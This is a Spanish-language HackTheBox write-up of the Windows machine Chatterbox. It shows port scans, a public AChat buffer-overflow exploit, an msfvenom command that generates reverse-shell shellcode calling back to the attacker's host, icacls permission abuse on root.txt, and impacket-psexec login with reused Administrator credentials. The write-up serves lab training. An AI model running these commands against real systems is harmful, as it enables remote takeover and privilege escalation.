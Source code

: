 ```yaml
---
tags:
  - Achat 0.150 beta7 - Buffer Overflow (Windows 7 32 bits)
  - Generating a Shellcode based on our needs + TIPS
  - Icacls Abuse (Privilege Escalation)
  - PowerUp Enumeration (Alternative Privilege Escalation)
---
```


# Chatterbox <!-- omit from toc -->

Write-up de la máquina Chatterbox de [HackTheBox](https://hackthebox.com).

![Cover de Chatterbox](images/cover.png)

## Índice <!-- omit from toc -->

- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios](#servicios)
    - [achat - 9255, 9256](#achat---9255-9256)
      - [Manual](#manual)
- [Explotación](#explotación)
  - [Buffer Overflow - RCE](#buffer-overflow---rce)
    - [Pasos previos | Preparación](#pasos-previos--preparación)
    - [Ejecución](#ejecución)
- [Post Explotación](#post-explotación)
  - [Enumeración](#enumeración-1)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [alfred → nt authority system](#alfred--nt-authority-system)
- [Referencias](#referencias)

## Introducción

### Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Chatterbox](https://app.hackthebox.com/machines/Chatterbox) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad | ![Dificultad](images/diff.png) |
| Puntos | 30 |
| Creadores | [lkys37en](https://app.hackthebox.com/users/709) |

## Reconocimiento

### Escaneo de host

#### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:36 EDT
Initiating Connect Scan at 13:36
Scanning 10.10.10.74 [65535 ports]
Discovered open port 135/tcp on 10.10.10.74
Discovered open port 139/tcp on 10.10.10.74
Discovered open port 445/tcp on 10.10.10.74
Discovered open port 49152/tcp on 10.10.10.74
Discovered open port 49154/tcp on 10.10.10.74
Discovered open port 9256/tcp on 10.10.10.74
Discovered open port 49153/tcp on 10.10.10.74
Discovered open port 9255/tcp on 10.10.10.74
Discovered open port 49155/tcp on 10.10.10.74
Discovered open port 49157/tcp on 10.10.10.74
Discovered open port 49156/tcp on 10.10.10.74
Completed Connect Scan at 13:37, 29.11s elapsed (65535 total ports)
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.073s latency).
Scanned at 2022-05-27 13:36:42 EDT for 29s
Not shown: 54223 closed tcp ports (conn-refused), 11301 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
9255/tcp  open  mon          syn-ack
9256/tcp  open  unknown      syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 29.15 seconds
```

#### Escaneo específico

```bash
└─$ nmap -sCV -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m36s, median: 4h59m59s
| smb2-time:
|   date: 2022-05-27T22:40:43
|_  start_date: 2022-05-27T22:34:47
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T18:40:47-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.63 seconds
```

## Enumeración

### Servicios

#### achat - 9255, 9256

##### Manual

Al buscar hacer un reconocimiento directamente por alguna versión vulnerable se encontró [este repositorio en github](https://github.com/mpgn/AChat-Reverse-TCP-Exploit) de una prueba de concepto sobre la explotación del programa, probado en su versión y arquitectura `AChat 0.150 Beta 7 Windows 7/8/10 x86/x64`. Por lo que directamente se probó el exploit.

## Explotación

### Buffer Overflow - RCE

#### Pasos previos | Preparación

Dadas las indicaciones en la PoC se generó el shellcode correspondiente usando:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=10.10.14.16 LPORT=4321 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > scode.txt
```

Sustituyendo los valores correspondientes en el script del shellcode y host.

#### Ejecución

Obteniendo acceso como el usuario `alfred`.

![Acceso como usuario alfred](images/exploit_1.png)

## Post Explotación

### Enumeración

Posteriormente al ejecutar [winPEAS](https://github.com/carlospolop/PEASS-ng), se identificaron dos rutas potenciales a probar:

1. El usuario con el que se cuenta (alfred) tiene acceso completo al directorio del usuario Administrator.
2. Existen credenciales AutoLogon visibles.

![Rutas potenciales](images/post_1.png)

### Escalación de privilegios

#### alfred &rarr; nt authority system

En el primer caso, bastaría con leer, escribir o ejecutar cualquier archivo dentro del directorio, si llegara a suceder que no se permite el acceso a un archivo bastaría con hacer uso de `icacls` para efectuar el cambio de permisos lo cual por herencia o jerarquía del directorio, se permitiría este cambio pudiendo así leer la bandera de `root.txt`.

Por medio de:

```powershell
icacls .\root.txt /e /p alfred:f
```

Tomando como referencia [este post](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html) para verificar el uso del binario.

![Cambio de permisos](images/post_2.png)

En el segundo caso, al probar alguna herramienta que permita acceso al sistema con credenciales como `psexec` se puede obtener una shell como `NT AUTHORITY SYSTEM`, probando las credenciales obtenidas anteriormente bajo la suposición de reutilización de contraseña.

Ejecutando:

```bash
impacket-psexec 'Administrator:Welcome1!@10.10.10.74'
```

![Acceso como nt authority system](images/post_3.png)

## Referencias

- [AChat expoit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit).
- [Windows change access permissions from the command line](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html).
